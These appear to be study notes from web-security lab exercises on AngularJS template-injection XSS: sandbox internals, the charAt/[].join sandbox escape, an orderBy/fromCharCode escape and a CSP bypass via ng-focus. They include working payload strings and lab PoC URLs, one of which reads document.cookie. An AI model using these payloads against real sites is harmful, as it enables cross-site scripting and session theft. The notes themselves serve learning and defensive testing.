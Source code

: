 # AngularJS XSS

AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the `ng-app` attribute (also known as an **AngularJS directive**). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded.

```javascript
{{$on.constructor('alert(1)')()}}
```


# AngularJS sandbox

>[!question] What it AngularJS sandbox?
>The AngularJS sandbox is a mechanism that prevents access to potentially dangerous objects and properties, such as `window`, `document`, or `__proto__` in AngularJS template expressions.

Note: it was eventually removed from AngularJS in version 1.6. However, many legacy applications still use older versions of AngularJS and may be vulnerable as a result.

## How does it work?

The sandbox works by parsing an expression, rewriting the JavaScript, and then using various functions to test whether the rewritten code contains any dangerous objects.

>[!example]
>- The `ensureSafeObject()` function checks whether a given object references itself. This is one way to detect the `window` object, for example. 
>  
>- The `Function` constructor is detected in roughly the same way, by checking whether the constructor property references itself.
>- The `ensureSafeMemberName()` function checks each property access of the object and, if it contains dangerous properties such as `__proto__` or `__lookupGetter__`, the object will be blocked. 
>- The `ensureSafeFunction()`function prevents `call()`, `apply()`, `bind()`, or `constructor()` from being called.

## Escape the AngularJS sandbox

A sandbox escape involves tricking the sandbox into thinking the malicious expression is benign. The most well-known escape uses the modified `charAt()` function globally within an expression: `'a'.constructor.prototype.charAt=[].join`.

The attack works by overwriting the function using the `[].join` method, which causes the `charAt()` function to return all the characters sent to it, rather than a specific single character. Due to the logic of the `isIdent()` function in AngularJS, it compares what it thinks is a single character against multiple characters. As single characters are always less than multiple characters, the `isIdent()` function always returns true:

```javascript
isIdent = function(ch) {
    return ('a' <= ch && ch <= 'z' || 'A' <= ch && ch <= 'Z' || '_' === ch || ch === '$');
}
isIdent('x9=9a9l9e9r9t9(919)')
```

Once the `isIdent()` function is fooled, you can inject malicious JavaScript. For example, an expression such as `$eval('x=alert(1)')` would be allowed because AngularJS treats every character as an identifier. Note that we need to use AngularJS's `$eval()` function because overwriting the `charAt()` function will only take effect once the sandboxed code is executed.

Reference: 
- https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
- https://portswigger.net/research/dom-based-angularjs-sandbox-escapes

![](https://www.youtube.com/watch?v=6pGEVDderN4&list=PLhixgUqwRTjwJTIkNopKuGLk3Pm9Ri1sF&index=3&ab_channel=LiveOverflow)

## Constructing an advanced AngularJS sandbox escape

You may encounter sites that are more restrictive with which characters they allow. A site may prevent you from using double or single quotes. In this situation, you need to use functions such as `String.fromCharCode()` to generate your characters. Although AngularJS prevents access to the `String` constructor within an expression, you can get round this by using the constructor property of a string instead. This obviously requires a string, so to construct an attack like this, you would need to find a way of creating a string without using single or double quotes.

In a standard sandbox escape, you would use `$eval()` to execute your JavaScript payload, but in the lab below, the `$eval()` function is undefined. Fortunately, we can use the `orderBy` filter instead. The typical syntax of an `orderBy` filter is as follows: 
```js
[123]|orderBy:'Some string'

//Poc:
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

//breakdown
search=1&
toString().constructor.prototype.charAt%3d[].join;
[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

## AngularJS CSP bypass

[Content Security Policy (CSP)](../Web%20&%20Network%20Hacking/Content%20Security%20Policy%20(CSP).md) bypasses work in a similar way to standard sandbox escapes, but usually involve some HTML injection. When the CSP mode is active in AngularJS, it parses template expressions differently and avoids using the `Function` constructor.

Depending on the specific policy, the CSP will block JavaScript events. However, AngularJS defines its own events that can be used instead. When inside an event, AngularJS defines a special `$event` object, which simply references the browser event object. You can use this object to perform a CSP bypass. On Chrome, there is a special property on the `$event/event` object called `path`. This property contains an array of objects that causes the event to be executed. The last property is always the `window` object, which we can use to perform a sandbox escape. By passing this array to the `orderBy` filter, we can enumerate the array and use the last element (the `window` object) to execute a global function, such as `alert()`. The following code demonstrates this:

```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">

PoC:
<script> location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x'; </script>

<!-- breakdown -->
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
```

>[!note]
>Notice that the `from()` function is used, which allows you to convert an object to an array and call a given function (specified in the second argument) on every element of that array. In this case, we are calling the `alert()` function. We cannot call the function directly because the AngularJS sandbox would parse the code and detect that the `window` object is being used to call a function. Using the `from()` function instead effectively hides the `window` object from the sandbox, allowing us to inject malicious code.
>
>\- PortSwigger Research [created a CSP bypass using AngularJS in 56 characters using this technique](https://portswigger.net/research/angularjs-csp-bypass-in-56-characters).